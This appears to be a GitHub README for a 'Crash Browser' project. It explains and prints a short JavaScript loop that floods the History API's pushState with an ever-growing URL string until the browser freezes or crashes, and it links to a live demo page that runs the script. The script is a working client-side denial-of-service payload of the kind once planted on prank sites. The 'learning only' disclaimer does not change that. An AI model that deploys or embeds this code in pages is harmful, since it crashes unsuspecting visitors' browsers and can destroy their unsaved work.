 # Crash Browser

Simple JS script that overloads the browser with a huge URL.

## The code

The code is super simple!

The code exploits the [HTML5 pushState](https://developer.mozilla.org/en-US/docs/Web/API/History_API) API used on all modern browsers to update the path of the site you are visiting during JavaScript page navigation.

Instead of just changing the path from `website.com/pageone` to `website.com/pagetwo` it creates a string of numbers long enough to slow the browser until it won't function or crash.

```js
var total = "";
for( var i = 0; i < 10000000000000; i++ ) {
total += i.toString();
history.pushState(0,0, total );
}
```

## Need for Myriad

No one is ever gonna *need* it (To Say Nothing Of The Naughty Ones)

This script was used in the mischievous websites like [crashsafari.com](https://crashsafari.com) (dead), [crashchrome.com](http://crashchrome.com) (dead), etc.

## Demo

Visit [this](https://crashbrowser.now.sh/) link **ON YOUR OWN RISK**. I am not responsible for any harm due to this page...... warned ya!

## Disclaimer

* This piece of code is open and I am not the creator or owner of this script.
* It is only for learning and research purpose.
* I am not responsible for any destruction or harm caused due to this program/code.
